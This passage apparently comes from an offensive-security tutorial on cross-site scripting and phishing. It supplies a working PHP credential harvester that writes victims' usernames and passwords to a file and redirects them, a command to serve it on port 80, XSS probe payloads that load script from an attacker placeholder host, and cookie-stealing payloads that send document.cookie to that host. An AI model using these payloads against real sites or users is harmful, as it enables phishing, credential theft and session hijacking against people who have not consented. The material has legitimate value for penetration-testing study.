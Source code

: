 Despite this method works perfectly, it’s very suspicious.

### Creating a simple HTTP Server with PHP

The code below is a simple script that can handle the request, redirect the victim back to the same portal and save the credentials in a txt file. 

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Then, start the PHP server

```
vi index.php      #at this step we wrote our index.php file (code above)

sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

# Session Hijacking (Cookie Stealing)

if the parameter is vulnerable, we can receive a request in /username parameter

```
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
```

if that field is vulnerable, we can test the followings payloads to check if works.

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script><script>$.getScript("http://OUR_IP")</script>
```

## **Session Hijacking Cookie’s grabbing**

Write one of the following payloads into script.js file

```jsx
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```
